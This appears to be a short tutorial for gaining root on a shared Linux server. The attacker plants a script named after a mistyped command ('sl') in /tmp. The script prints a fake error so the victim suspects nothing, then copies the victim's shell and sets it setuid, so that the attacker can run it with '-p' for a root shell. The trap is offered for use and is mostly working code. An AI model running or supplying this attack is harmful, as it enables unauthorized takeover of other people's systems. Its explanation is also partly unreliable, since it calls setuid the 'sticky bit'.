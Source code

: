 Lets suppose you have ssh access on a server as a testuser .
You can cd on tmp directory and create the following simple script .
The whole idea is to accidentaly make a root user execute our script . This will be possible if we name our executable as a possible wrong command like sl (not ls) .
Then we will copy root user's shell to onother executable where we will have access . Executing the new executable  will give us root privilleges.
(assuming the command spelling error happens from a root user , we'll need to wait a bit :P. You can also write multiple scripts with wrong spelled commands )

```
#cd on /tmp as any user without privilleges and create the following script.
#Its important to name your script , as a frequent wrong possible command like sl(not ls) , mroe(not more) etc..
vim sl

#!/bin/bash 
echo "bash: sl not found "
cp $SHELL /tmp/myfile
chmod u+s /tmp/myfile

```
1. echo "bash: sl not found " ---> informs the user that accidentally executed our script that his command was spelled wrong , in order to not be suspicious.
2. cp $SHELL /tmp/myfile ---> copies the user that executed our script bash shell to /tmp/myfile
3. chmod u+s /tmp/myfile -----> enables sticky bit , so if it is a root user we will then execute the new script , as root.

When a root user accidentally types sl instead of ls on /tmp , he runs our executable and the /tmp/myfile is finally created .It is  important to execute the new file  with the -p option to keep the privilleges of the root.

```
cd /tmp
./myfile -p

```

Enjoy your root shell.
